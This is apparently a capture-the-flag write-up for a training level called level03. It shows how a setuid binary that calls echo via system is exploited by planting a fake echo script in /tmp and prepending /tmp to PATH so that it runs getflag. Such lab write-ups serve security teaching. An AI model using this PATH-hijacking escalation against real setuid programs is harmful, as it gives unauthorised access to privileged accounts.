 ```sh
$: ls -la
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
```

**binary with flag03 rights**
**we search in the binary to know what it does**

COMMAND USED:   -strings
                -strace
                -strace -f
                -gdb (dissasemble main)

**with all that we see that the binary do a call to system and execve**
**and execute the echo command**
**since the binary have flag03 rights we want it to execute the getflag command**
**to do so we gonna make him execute a false echo command who execute the getflag command**

```sh
$: vi /tmp/echo
```

```sh
#!/bin/bash

getflag
```

```sh
$: PATH=/tmp:$PATH ./level03  *execute binary with /tmp in PATH*
*flag*
```

